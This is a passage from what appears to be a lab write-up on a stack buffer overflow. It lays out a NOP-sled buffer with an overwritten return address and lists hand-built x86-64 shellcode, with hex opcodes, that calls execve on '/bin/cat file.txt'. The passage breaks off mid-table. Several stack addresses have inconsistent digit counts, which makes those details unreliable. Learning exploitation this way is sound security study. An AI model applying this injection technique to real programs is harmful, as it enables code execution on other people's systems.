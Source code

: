 ```
char *args[] = {"/bin/cat", "file.txt", NULL};
execve(args[0], args , NULL);
```

First, however, I need to make char ``*args[]`` and ``*envp[]`` on the stack using instructions. More on that in a moment.

#### 2. Buffer layout

The buffer will be laid out as follows:

1. "/bin/cat" (**8 B**)
2. "file.txt" (**8 B**)
3. sequence of NOPs (**897 B**)
4. Instructions (**61 B**)
5. Padding (**58 B**)
6. Return address (**6 B**)

The return address points approximately to the middle of the NOP sequence

In Padding, I create the necessary variables using the instructions- "/bin/cat", "file.txt", args, envp. Here's a table of what I need to be in Padding:

| Address | Content - hex | Text | Note |
| ------------ | ---------------- | -------- | ----------------- |
| ... | 7fffffffd908 | | Pointer |
| ... | 7ffffffffd918 | | Pointer |
| 7fffffffd900 | 0 | NULL | ... |
| 7fffffffd908 | 7461632f6e69622f | /bin/cat | Running program |
| 7ffffffffd910 | 0 | NULL | ... |
| 7ffffffd918 | 7478742e656c6966 | file.txt | file to open |
| 7fffffffd920 | 0 | NULL | ... |
| ... | 0 | NULL | ... |


#### 3. Creating malicious code

| Instructions | Hexadecimal | Note |
|------------------------|-------------------------|-------------------------------------------------------|
| xor rax, rax | 48 31 c0 | All zeros |
| push rax | 50 | Zeroes on Stack |
| push rax | 50 | terminating zero for string "file.txt" | 
| mov rcx, [RSP - 0x3f8] | 48 8b 8c 24 08 fc ff ff | "file.txt" to rcx |
| push rcx | 51 | "file.txt" to stack |
| push rax | 50 | Terminating null for string "/bin/cat" |
| mov rcx, [RSP - 0x3f0] | 48 8b 8c 24 10 fc ff ff | "/bin/cat" to rcx |
| push rcx | 51 | "/bin/cat" to stack |
| push rax | 50 | NULL element args |
| mov rcx, rsp | 48 89 e1 | ... |
| add rcx, 0x18 | 48 83 c1 18 | ... |
| push rcx | 51 | Pointer to "file.txt" on stack |
| mov rcx, rsp | 48 89 e1 | ... |